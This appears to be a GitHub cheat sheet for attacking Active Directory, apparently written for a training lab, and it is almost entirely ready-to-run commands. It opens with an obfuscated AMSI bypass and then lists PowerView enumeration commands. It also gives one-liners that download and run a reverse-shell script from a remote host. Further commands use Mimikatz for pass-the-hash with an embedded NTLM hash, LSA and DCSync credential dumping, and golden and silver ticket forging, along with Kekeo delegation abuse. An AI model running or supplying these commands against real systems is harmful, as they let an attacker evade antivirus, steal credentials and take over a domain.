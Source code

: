 # Active-directory-small-cheatsheet
Small easy to find cheat sheet for Active directory exploitation

**Amsi bypass:-**

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


**Tips**

To input the output of the first command into second command use this powershell technique


`<First command> | %{<Second command> -<argument> $_}`
%{} is an alias for ForEach-Object{}
?{} is an alias for Where-Object{}
$_ is variable


To filter out an object type we can use this technique with pipe.

`?{$_.<object> -eq '<value>’'}`


##Enumeration:-

**To find local admin access:-**

Find-LocalAdminAccess

**To get Domain sid:-**

Get-DomainSID 

Arguments -Domain “domain name”

**To get DC:-**

Get-NetDomainController

Arguments -Domain “domain name”

**To get users in current domain:-**

Get-NetUser

Arguments  -UserName “username”




**To get user properties:-**

Get-UserProperty

Arguments -Properties pwdlastset



**Search for a particular string in a user's attributes:-**

Find-UserField -SearchField Description -SearchTerm ”built”

**To Get all computers:-**

Get-NetComputer -FullData

Many arguments -OperatingSystem -Ping -FullData

**To get groups:-**

Get-NetGroup

Arguments -FullData -Domain

**To get members of a particular group:-**

Get-NetGroupMember -GroupName "Domain Admins"

**To Group Policies**

Get-NetGPO

# Shows active Policy on specified machine
Get-NetGPO -ComputerName <Name of the PC>
Get-NetGPOGroup

**To Get users that are part of a Machine's local Admin group**
Find-GPOComputerAdmin -ComputerName <ComputerName>

**To get OUs:**

Get-NetOU -FullData 
Get-NetGPO -GPOname <The GUID of the GPO>


**Mapping forest:-**

Get-NetForest -Verbose

Get-NetForestDomain -Verbose



**Mapping trust:-**

Get-NetDomainTrust
 
Arguments -Domain

Get-NetForestDomain -Verbose | Get-NetDomainTrust




**Finding Constrained Delegation:-**

Get-DomainUser -TrustedToAuth (Poweview Dev.)


**Finding UnConstrained Delegation:-**

Get-NetComputer -UnConstrained


**To get ACLs**

Get-ObjectAcl -SamAccountName <AccountName> -ResolveGUIDs
Get-ObjectAcl -ADSprefix 'CN=Administrator, CN=Users' -Verbose

**To Search for interesting ACEs**

Invoke-ACLScanner -ResolveGUIDs


##Command Execution techniques for reverse shells.

`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.113/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

`powershell.exe iex (iwr http://172.16.100.113/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.113 -Port 443`

##Mimikatz

**Make ntlm ps-session:-**

Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'



**Dump creds:-**

Invoke-Mimikatz

Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’

Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

(dcsync requires 3 permission )


#Tickets

**Inject ticket:-**

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

**Export Tickets:-**

Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

**Golden tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<krbtgt hash>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

**Silver tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<target> /service:<ServiceType> /rc4:<rc4 NTLM Hash of user> /user:<UserToImpersonate> /ptt"'`

**TGT tkt**

kekeo.exe 
`tgt::ask /user:<user name> /domain:<domain name> /rc4:<rc4 NTLM Hash of user>`

Here the rc4 hash is for the user who is allowed to delegate.

**TGS tkt**

Kekeo.exe

`tgs::s4u /tgt:tgt_ticket.kirbi /user:<user>@<domain> /service:<service name>/<server name>`







